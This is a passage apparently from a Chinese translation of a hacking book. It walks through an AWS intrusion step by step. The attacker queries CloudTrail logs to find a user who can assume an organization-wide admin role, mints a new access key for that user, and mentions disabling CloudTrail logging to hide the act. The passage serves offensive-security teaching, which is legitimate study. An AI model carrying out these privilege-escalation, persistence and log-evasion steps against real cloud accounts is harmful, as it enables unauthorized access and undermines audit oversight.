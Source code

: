 每当用户或角色扮演某个角色时，该查询会在 CloudTrail 中记录，并且在 GP 的情况下，会被推送到 CloudWatch 和 S3。我们可以利用这个随时监控的系统来筛选出那些被允许跳转到 IT 账户的用户和角色。CloudTrail 的 API 并没有提供很多过滤功能，所以我们将使用 CloudWatch 强大的 `filter-log-events` 命令。

首先，我们获取聚合 CloudTrail 日志的日志组名称：

```
root@Point1:~/# **aws logs describe-log-groups \**
**--region=eu-west-1 \**
**--profile test**
--`snip`--
logGroupName: CloudTrail/DefaultLogGroup
`--snip--`
```

然后，如[清单 13-4 所示，这只是一个查找 IT 账户标识符 345673068670 出现位置的简单问题，我们从清单 13-3 中得到了这个标识符。

```
root@Point1**:~/# aws logs filter-log-events \**
**--log-group-name "CloudTrail/DefaultLogGroup" \**
**--filter-pattern "345673068670" \**
**--max-items 10 \**
**--profile rundeck \**
**--region eu-west-1 \**
**| jq ".events[].message" \**
**| sed 's/\\//g'**

"userIdentity": {
    "type": "IAMUser",
    "arn": "arn:aws:iam:: 983457354409:user/elis.skyler",
    "accountId": "983457354409",
    "accessKeyId": "AKIA44ZRK6WS4G7MGL6W",
  1   "userName": "elis.skyler"
},
"requestParameters": {
     "roleArn": "arn:aws:iam::345673068670:role/OrganizationAccountAccessRole",
    "responseElements": {"credentials": {
`--snip--`
```

清单 13-4：CloudTrail 事件显示 *elis.skyler* 在 IT 账户内假扮角色

看起来*elis.skyler* 1 几小时前假扮了 OrganizationAccountAccessRole。是时候为这个账户添加一个额外的访问密钥，让我们可以自己假扮该角色了。当然，在这个操作过程中，我们将暂时关闭 CloudTrail，但我会省略代码，因为你已经在第十一章了解了这种技术：

```
root@Point1:~/# **aws iam create-access-key \**
**--user-name elis.skyler \**
**--profile rundeck**

AccessKey: {
    UserName: elis.skyler,
    AccessKeyId: AKIA44ZRK6WSRDLX7TDS,
    SecretAccessKey: 564//eyApoe96Dkv0DEdgAwroelak78eghk
```

使用这些新的凭据，我们请求属于 OrganizationAccountAccessRole 的临时 AWS 密钥：
